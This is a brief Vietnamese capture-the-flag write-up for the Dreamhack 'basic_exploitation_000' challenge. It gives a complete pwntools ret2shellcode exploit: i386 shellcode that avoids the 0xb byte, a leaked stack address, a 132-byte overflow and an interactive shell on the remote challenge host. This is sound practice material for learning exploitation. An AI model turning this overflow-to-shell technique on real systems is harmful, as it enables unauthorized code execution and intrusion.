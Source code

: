
---------------


3 . basic_exploitation_000
--------

- bài này đơn giản là ret2shellcode =)) éo hiểu sao debug mãi cái offset ovw ret không đúng
- byte 0xb vô nghĩa với scanf (hoặc code asm nhà làm có lượng byte k chia hết cho 4)



![image](https://hackmd.io/_uploads/S1DrISv4yl.png)



script :

```
#!/usr/bin/python3


from pwn import *

context.binary = exe = ELF('./exploit',checksec=False)
p= remote('host3.dreamhack.games',11166)
#p = process()
shellcode = asm(
    '''
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    push eax
    push ebx
    mov ecx, esp
    mov edx, eax
    mov al, 0x8
    inc al
    inc al
    inc al
    int 0x80
    ''', arch='i386')
#shellcode = asm(shellcraft.sh())
p.recvuntil(b'(')
leak = int(p.recvline()[:-2].decode(),16)
print(hex(leak))
#input()
payload = b'\x90' * 20
payload += shellcode
payload = payload.ljust(132,b'a')
payload += p32(leak)
#payload +=
p.sendline(payload)
p.interactive()
```
